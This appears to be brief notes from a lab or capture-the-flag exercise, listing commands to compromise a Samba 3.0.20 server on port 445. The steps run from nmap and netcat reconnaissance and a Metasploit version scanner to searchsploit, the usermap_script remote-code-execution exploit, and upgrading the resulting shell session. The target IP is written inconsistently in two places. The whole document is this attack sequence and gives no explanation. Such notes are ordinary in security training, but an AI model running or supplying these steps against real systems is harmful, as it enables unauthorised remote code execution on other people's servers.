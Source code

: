 

- cat /etc/hosts
- nmap -sV  -p 445 10.2.17.132
- nc target-ip 445 (just for testing to see what version samba is running)
- use auxiliary/scanner/smb/smb_version
- set RHOSTS 10.2.217.132
- searchsploit samba 3.0.20
- use exploit/multi/samba/usermap_script
- set RHOSTS 10.2.217.132
- exploit
- sessions -u 1 (upgrade session)